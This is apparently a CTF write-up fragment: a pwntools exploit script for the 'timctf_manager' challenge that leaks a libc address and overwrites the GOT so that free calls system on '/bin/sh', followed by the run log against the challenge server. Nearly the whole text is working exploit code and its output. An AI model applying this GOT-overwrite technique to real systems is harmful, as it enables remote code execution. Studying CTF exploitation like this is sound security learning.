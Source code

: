 ```python
add(4,p32(got-0x20),"+","+","+","+","DDDD")

player(1)

for i in range(0,1):
	r.recvuntil("\x7f")

leak = u64(r.recvuntil("\x7f")[-6:] + "\x00\x00")
libc_base = leak - libc.symbols["free"] #0x408750
system = libc_base + libc.symbols["system"]
log.info("leak : " + hex(leak)) #600
log.info("libc_base : " + hex(libc_base))

payload = ""
payload += p64(0)
payload += p64(libc_base + libc.symbols["system"]) #free@got
payload += p64(libc_base + libc.symbols["putchar"])
payload += p64(libc_base + libc.symbols["puts"])
payload += p64(0)
payload += p64(libc_base + libc.symbols["printf"])
payload += p64(libc_base + libc.symbols["getchar"])
payload += p64(libc_base + libc.symbols["gets"])
payload += p64(libc_base + libc.symbols["malloc"])
payload += p64(libc_base + libc.symbols["fflush"])
payload += p64(libc_base + libc.symbols["scanf"])
payload += p64(libc_base + libc.symbols["fwrite"])
payload += p64(0) * 2
payload += p64(libc_base + 0x3ec760)
payload += p64(0)
payload += "/bin/sh\x00" #0x602090

pause()
edit(1,payload,"+","+","+","+","B")

#remove(4)

r.interactive()
```

```bash
juntae@ubuntu:~/ctf/timisoara/manager$ p ex.py 
[*] '/home/juntae/ctf/timisoara/manager/timctf_manager'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/juntae/ctf/timisoara/manager/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 89.38.208.144 on port 11114: Done
[*] got : 0x602018
[*] leak : 0x7fca44592950
[*] libc_base : 0x7fca444fb000
[*] Paused (press any to continue)
[*] Switching to interactive mode


1: Add player
2: Remove player
3: Edit player
```